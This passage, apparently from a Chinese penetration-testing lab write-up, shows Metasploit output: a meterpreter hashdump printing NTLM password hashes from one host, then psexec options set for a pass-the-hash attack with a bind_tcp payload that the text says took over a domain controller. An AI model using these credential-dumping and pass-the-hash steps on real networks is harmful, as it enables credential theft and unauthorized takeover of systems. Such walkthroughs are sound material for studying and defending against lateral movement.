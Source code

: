 ```
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.0.1.0           255.255.255.0      Session 2
   10.0.1.7           255.255.255.255    Session 5

[*] There are currently no IPv6 routes defined.
```
首先，搜集利用hashdump命令收集一下主机`10.0.1.26`的所有密码Hash：
```
msf exploit(handler) > sessions 5
[*] Starting interaction with 5...

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:616463a26de99900462a713770e806ab:::
gamebox:1001:aad3b435b51404eeaad3b435b51404ee:4ea29bdfa3e99248ce57c9f29d114a6f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
接着，我们可以尝试使用Pass The Hash来测试一下我们的目标机(10.0.1.7)，并成功地拿下了该域控服务器。
```
msf exploit(psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   RHOST                 10.0.1.7                                                           yes       The target address
   RPORT                 445                                                                yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                                                                      no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                     no        The service display name
   SERVICE_NAME                                                                             no        The service name
   SHARE                 ADMIN$                                                             yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             gbox                                                               no        The Windows domain to use for authentication
   SMBPass               aad3b435b51404eeaad3b435b51404ee:4ea29bdfa3e99248ce57c9f29d114a6f  no        The password for the specified username
   SMBUser               gamebox                                                            no        The username to authenticate as


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     10.0.1.7         no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```